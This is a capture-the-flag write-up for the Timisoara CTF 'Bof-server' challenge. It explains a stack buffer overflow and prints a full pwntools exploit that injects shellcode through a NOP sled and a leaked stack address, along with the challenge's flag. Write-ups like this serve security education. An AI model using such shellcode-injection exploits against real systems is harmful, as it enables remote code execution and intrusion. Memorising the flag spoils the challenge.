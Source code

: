 ```yaml
---
title: "Bof-server [100]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> Today kids we learn how to write exploits for super-secure software: bof-server!  
nc 89.38.208.144 11112  
(non-standard flag format)

## Write-up
This is a standard buffer overflow shellcoding challenge. 

As usual, running `checksec` on the binary gives:
```   
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)    
   RWX:      Has RWX segments
```

`checksec` shows the `NX Bit` as disabled, which means shellcode can be executed. After running the binary, we see the following output:  

`Hello! Here is the stack address: 7fffffffdc60, enter your name please:`  

The binary prints out the starting address of the stack, and asks for input. We can use `pwntools` to generate the shellcode to execute shell. The payload contains the following:

1. Shellcode
2. Padding (Overflow the stack until RIP)    
3. Stack address (To jump to our shellcode and execute shell)

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./bof-server",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "89.38.208.144",
    "PORT" : 11112,
}

def exploit(p):
    padding = "\x90"*264
    shellcode = asm(shellcraft.sh())

    ru("stack address: " )
    address = int("0x" + r(12), 16)

    payload = "\x90"*50 
    payload += shellcode
    payload += "\x90"*(264-50-len(shellcode))
    payload += p64(address)
    sla("please: ", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{oooverfl0w}wwwWWW